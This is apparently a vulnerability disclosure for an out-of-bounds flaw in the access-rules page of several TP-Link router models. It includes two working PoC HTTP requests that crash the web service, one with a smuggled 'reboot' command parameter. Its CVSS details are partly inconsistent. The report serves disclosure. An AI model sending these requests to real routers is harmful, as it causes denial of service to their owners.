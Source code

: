 # TP-Link TL-WR940N/TL-WR941ND/TL-WR841N wireless router /userRpm/AccessCtrlAccessRulesRpm buffer read out-of-bounds vulnerability

## 1 Basic Information

- Vulnerability Type: Buffer read out-of-bounds
- Vulnerability Description: A buffer overflow vulnerability exists in TP-Link TL-WR940N V2, TP-Link TL-WR941ND V5 and TP-Link TL-WR841N V8 wireless router. Its /userRpm/AccessCtrlAccessRulesRpm implementation has a security vulnerability in processing Changed GET key parameters, allowing remote attackers to submit special requests through the vulnerability, causing buffer out-of-bounds read errors, which may lead to memory-sensitive information leakage and denial of service.
- Device model:
  - TP-Link TL-WR940N V2  
  - TP-Link TL-WR941ND V5  
  - TP-Link TL-WR841N V8

## 2 Vulnerability Value

- Maturity of Public Information: None

- Order of Public Vulnerability Analysis Report: None

- Stable reproducibility: yes

- Vulnerability Score (refer to CVSS)

   - V2:[8.5 High AV:N/AC:M/Au:S/C:C/I:C/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:M/Au:S/C:C/I:C/A:C))
   - V3.1:[8.6 High AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H&version=3.1)

- Exploit Conditions

   - Attack Vector Type: Network
   - Attack Complexity: Low
   - Complexity of Exploit
     - Permission Constraints: authentication is required
     - User Interaction: No victim interaction required
   - Scope of Impact: Changed (may affect other components than vulnerable ones)
   - Impact Indicators:
     - Confidentiality: High
     - Integrity: High
     - Availability: High
   - Stability of vulnerability exploitation: Stable recurrence
   - Whether the product default configuration: There are vulnerabilities in functional components that are enabled out of the factory

- Exploit Effect

   - Denial of Service

## 3 PoC

The PoC of TP-Link TL-WR940N V2/TL-WR941ND V5 is as follows:
```http
GET /MZKBGETBOHFWYCNC/userRpm/AccessCtrlAccessRulesRpm.htm?rule_name=1&hosts_lists=0&targets_lists=255&scheds_lists=255&enable=1&;aaa=0&SelIndex=0&Page=1&Save=Save HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.0.1/ZRCEHZIAURWJWDTC/userRpm/AccessCtrlAccessRulesRpm.htm?Add=Add&Page=1
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link TL-WR841N V8 is as follows:
```http
GET /userRpm/AccessCtrlAccessRulesRpm.htm?rule_name=sfzerg&hosts_lists=0&targets_lists=0&scheds_lists=0&enable=1&CMD=$"reboot";$CMD=0&SelIndex=0&Page=1&Save=Save HTTP/1.1
Host: 0.0.0.0:49169
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: keep-alive
Referer: http://0.0.0.0:49169/userRpm/AccessCtrlAccessRulesRpm.htm?Add=Add&Page=1
Cookie: Authorization=
Upgrade-Insecure-Requests: 1

```

## 4 Vulnerability Principle

When the Web management component receives a GET request, its /userRpm/AccessCtrlAccessRulesRpm component implements a security vulnerability in processing the Changed GET key parameter. The length of the parameter key of Changed can be any length and it is put into the stack without any boundary check, resulting in a read out-of-bounds. An attacker can exploit this vulnerability to overwrite the return address, which may lead to the disclosure of memory-sensitive information and denial of service.

The firmware is simulated by means of simulation, the simulation process and interface are as follows:

![](./imgs/success.png)

![](./imgs/before.png)

![](./imgs/router.png)

![](./imgs/router4.png)

After sending the PoC, a buffer read out-of-bounds memory error occurred, encountered an `unexpected fatal signal 11` error and a BadVA error, causing the program to crash.

![](./imgs/error.png)

![](./imgs/crash.png)

## 5. The basis for judging as a 0-day vulnerability

Search the AccessCtrlAccessRulesRpm keyword in the NVD database, and no vulnerabilities are found (the same series of vulnerabilities can be found by directly searching the interface name to find related historical vulnerabilities).

Search the AccessCtrlAccessRulesRpm keyword in the CNVD database, and no vulnerabilities are found (the same series of vulnerabilities can be found by directly searching the interface name to find related historical vulnerabilities).